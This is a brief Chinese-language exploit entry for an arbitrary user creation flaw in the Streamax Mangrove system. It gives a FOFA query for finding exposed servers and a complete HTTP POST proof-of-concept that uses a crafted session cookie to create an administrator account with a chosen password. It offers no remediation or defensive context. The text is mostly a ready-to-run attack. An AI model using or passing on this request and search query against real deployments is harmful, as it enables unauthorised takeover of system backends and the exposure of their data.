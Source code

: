 ## 锐明技术Mangrove系统任意用户创建漏洞

锐明技术Mangrove系统任意用户创建漏洞，远程攻击者可以利用此漏洞创建管理员账户，从而接管系统后台，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```
body="Mvsp/RegisterLogin/Default.do"
```

## poc

```javascript
POST /Mvsp/RoleUserInfo/Default.do?Action=CreateUser&Type=post&DataType=Text&Guid=1721290869914 HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Cookie: MVSP.U=VUlEPTEmVU49YWRtaW4yJkdJRD0xJlJJRD0x;
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0

UserId=&GroupPower=1&VehiclePower=&UserName=poiuy&RoleId=1&GroupId=1&ValidTime=&VideoTime=1&Enable=1&TelNo=1&Flow=&WarningFlow=&RealFlow=&MonthlyTime=&Description=&Email=&Password=test1234
```

![image-20241012131926688](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121319743.png)